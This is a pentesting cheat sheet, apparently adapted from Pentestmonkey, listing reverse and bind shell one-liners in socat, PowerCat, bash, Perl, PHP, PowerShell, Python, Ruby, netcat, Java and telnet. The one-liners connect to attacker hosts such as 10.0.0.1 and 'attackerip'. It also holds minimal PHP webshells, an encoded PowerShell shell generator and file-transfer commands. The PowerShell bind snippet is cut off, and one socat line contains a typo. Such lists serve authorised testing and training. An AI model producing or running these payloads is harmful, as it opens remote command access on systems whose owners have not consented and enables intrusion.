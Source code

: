 # Sockets & Shellz
======
#### Ref
Many copied from <a href="http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet">Pentestmonkey: Reverse Shell Cheat Sheet</a>

##  Socat
------
#### socat
```

socat file:`tty`,raw,echo=0 tcp-listen:4444 (listener)
```
#### Connect to remote POP3 Server
socat - TCP4:10.1.1.1:110
#### Create a listener on port 443
sudo socat TCP4-LISTEN:443 STDOUT
#### Transfer a File
sudo socat TCP4-LISTEN:443,fork file:secret.txt
#### Download a File
socat TCP4:10.1.1.1:443 file:new_secrets.txt,create
#### Socat Listener
socat -d -d TCP4-LISTEN:443
#### Socat Reverse Shell
socat TCP4:10.1.1.1:443 EXEC:/bin/bash
#### Socat Encrypted Bind
socat OPENSSL-LISTEN:443,cert=priv.pem,verify=0,fork EXE C:/bin/bash
#### Socat Connect to Encrypted Bind
socat - OPENSSL:10.1.1.1:443,verify=0

## PowerCat
------
#### Import
Import-Module ./powercat.ps1
#### Send File to Remote Listener
powercat -c 10.1.1.11 -p 443 -i C:\tmp\file-to-transfer.ps1
#### Bind to Local Application (reverse)
powercat -c 10.1.1.1 -p 443 -e cmd.exe
#### Bind to Local Application (bind)
powercat -l -p 443 -e cmd.exe
#### Generate PowerShell Rev Shell
powercat -c 10.1.1.1 -p 443 -e cmd.exe -g > reverseshell.ps1
#### Generate Encoded PowerShell Rev Shell
+ powercat -c 10.1.1.1 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
+  powershell -E (Write-Host encodedreverseshell.ps1)

#### Bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
#### Bash
0<&196;exec 196<>/dev/tcp/<IP>/443; sh <&196 >&196 2>&196 
#### Perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
#### PHP
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
#### Powershell (reverse)
+ $client = New-Object System.Net.Sockets.TCPClient("192.168.119.140",4444)
+  $stream = $client.GetStream()
+  [byte[]]$bytes = 0..65535|%{0}
+ while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
+ $sendback = (iex $data 2<&1 | Out-String )
+ $sendback2 = $sendback + "PS " + (pwd).Path + "> "
+ $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
+ $stream.Write($sendbyte,0,$sendbyte.Length)
+ $stream.Flush()}
+ $client.Close()

#### PowerShell (Bind)
+ $listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443)
+  $listener.start()
+  $client = $listener.AcceptTcpClient()
+  $stream = $client.GetStream()
+  [byte[]]

#### Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#### Ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
#### Ruby (non /bin/sh)
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
#### Ruby (Windows)
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
#### Netcat
nc -e /bin/sh 10.0.0.1 1234
#### OpenBSD Netcat
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
#### Java
```

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
#### Telnet
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
#### Telnet
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   # Remember to listen on your machine also on port 4445/tcp

## Webshells
------
#### PHP (standard)
<?php echo system($_GET['h00p']);?>
#### PHP (tiniest)
<?=`{${~a0b8baab}[a0]}`;
#### PHP (conditional tiniest)
<?`$_GET[_]`;

## HTTP Servers
------
#### Python2
python -m SimpleHTTPServer 8888
#### Python3
python -m http.server --bind 0.0.0.0 8888
#### php
php -S 0.0.0.0:8888
#### Ruby
ruby -run -e httpd . -p 8888
#### Busybox
busybox httpd -f -p 8888
